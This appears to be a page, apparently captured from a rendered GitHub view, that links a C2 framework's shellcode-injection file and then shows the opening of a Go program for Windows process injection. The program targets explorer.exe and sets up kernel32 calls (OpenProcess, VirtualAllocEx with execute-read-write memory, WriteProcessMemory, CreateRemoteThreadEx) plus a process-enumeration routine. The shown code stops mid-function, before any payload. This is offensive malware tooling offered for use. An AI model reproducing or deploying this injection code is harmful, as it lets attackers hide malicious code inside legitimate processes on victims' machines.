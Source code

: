 https://github.com/DoumoizC2/DoumoizC2/blob/4805a7fa1203a88e25d44c2d3277098fcf575eda/agents/resources/shellinject/shellcode_windows.go

**code-injection**

https://github.com/thepwnrip/code-injection

```
package main

import (
  "encoding/base64"
  "encoding/hex"
  "fmt"
  "log"
  "os"
  "strings"
  "syscall"
  "unsafe"
)

const (
  PROCESS_ALL_ACCESS     = 0x1F0FFF //OpenProcess中的第一个参数，获取最大权限
  MEM_COMMIT             = 0x1000
  MEM_RESERVE            = 0x2000
  PAGE_EXECUTE_READWRITE = 0x40
)

var (
  inProcessName            = "explorer.exe"    //需要注入的进程，可修改
  kernel32                 = syscall.NewLazyDLL("kernel32.dll")
  CreateToolhelp32Snapshot = kernel32.NewProc("CreateToolhelp32Snapshot")
  Process32Next            = kernel32.NewProc("Process32Next")
  CloseHandle              = kernel32.NewProc("CloseHandle")
  OpenProcess              = kernel32.NewProc("OpenProcess")
  VirtualAllocEx           = kernel32.NewProc("VirtualAllocEx")
  WriteProcessMemory       = kernel32.NewProc("WriteProcessMemory")
  CreateRemoteThreadEx     = kernel32.NewProc("CreateRemoteThreadEx")
  VirtualProtectEx         = kernel32.NewProc("VirtualProtectEx")
)

type ulong int32
type ulong_ptr uintptr
type PROCESSENTRY32 struct {
  dwSize              ulong
  cntUsage            ulong
  th32ProcessID       ulong
  th32DefaultHeapID   ulong_ptr
  th32ModuleID        ulong
  cntThreads          ulong
  th32ParentProcessID ulong
  pcPriClassBase      ulong
  dwFlags             ulong
  szExeFile           [260]byte
}

//根据进程名称获取进程pid
func GetPID() int {
  pHandle, _, _ := CreateToolhelp32Snapshot.Call(uintptr(0x2), uintptr(0x0))
  tasklist := make(map[string]int)
  var PID int
  if int(pHandle) == -1 {
    os.Exit(1)
  }
  //遍历所有进程，并保存至map
```